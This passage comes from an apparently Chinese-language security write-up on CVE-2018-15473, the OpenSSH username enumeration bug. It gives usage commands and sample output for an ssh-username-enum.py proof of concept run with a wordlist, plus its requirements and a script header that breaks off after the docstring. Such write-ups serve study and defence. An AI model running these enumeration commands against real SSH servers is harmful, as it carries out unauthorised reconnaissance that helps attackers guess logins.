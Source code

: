 结果就是，代码解析了一个1907字节的字符串（十六进制为0×00000773），这比整个消息的长度还要长，这会导致ssh\_packet\_get\_string调用fatal函数，并中断OpenSSH进程。

### poc补充

> 不知道为什么上面那个poc运行就报错了。这里找了一个能用的poc

Examples
--------

> A single username

    (cve-2018-15473)─> ./ssh-username-enum.py -u epi 192.168.1.2
    [+] epi found!

> Use a wordlist with 10 threads (the default is 4)

    (cve-2018-15473)─> ./ssh-username-enum.py -t 10 -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.1.2
    [+] avahi found!
    [+] avahi-autoipd found!
    [+] backup found!
    [+] daemon found!
    [+] bin found!
    ------8<------

> IPv6 Address on port 2222 and INCREASED VERBOSITY!

    (cve-2018-15473)─> ./ssh-username-enum.py -6 -p 2222 -v -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt '::1'
    [-] 4Dgifts not found
    [-] demo not found
    [-] checkfs not found
    [-] anon not found
    [-] EZsetup not found
    [-] auditor not found
    [-] demos not found
    [-] OutOfBox not found
    [-] checkfsys not found
    [+] avahi found!
    [-] diag not found
    [-] ROOT not found
    [-] checksys not found
    [-] cmwlogin not found
    [+] avahi-autoipd found!
    ------8<------

> **requirements.txt**
>
> asn1crypto==0.24.0> bcrypt==3.1.4> cffi==1.11.5> cryptography==2.3.1> idna==2.7> paramiko==2.4.1> pyasn1==0.4.4> pycparser==2.18> PyNaCl==1.2.1> six==1.11.0

    #!/usr/bin/env python3
    """
    derived from work done by Matthew Daley
    https://bugfuzz.com/stuff/ssh-check-username.py
    props to Justin Gardner for the add_boolean workaround
    CVE-2018-15473
    --------------
    OpenSSH through 7.7 is prone to a user enumeration vulnerability due to not delaying bailout for an
    invalid authenticating user until after the packet containing the request has been fully parsed, related to
    auth2-gss.c, auth2-hostbased.c, and auth2-pubkey.c.
    Author: epi
        https://epi052.gitlab.io/notes-to-self/
        https://gitlab.com/epi052/cve-2018-15473
    """